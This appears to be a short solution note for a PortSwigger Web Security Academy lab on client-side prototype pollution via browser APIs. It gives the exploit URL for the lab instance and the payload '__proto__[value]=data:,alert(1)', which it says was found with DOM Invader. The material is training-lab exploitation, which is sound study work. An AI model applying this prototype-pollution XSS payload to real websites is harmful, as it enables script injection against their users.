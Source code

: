 # Lab

https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis/lab-prototype-pollution-client-side-prototype-pollution-via-browser-apis

## Solution

`https://0a6e00b003df5345832fc392003d0059.web-security-academy.net/?__proto__[value]=data%3A%2Calert%281%29`

Payload : `__proto__[value]=data:,alert(1)`

Trouvé via DOM Invader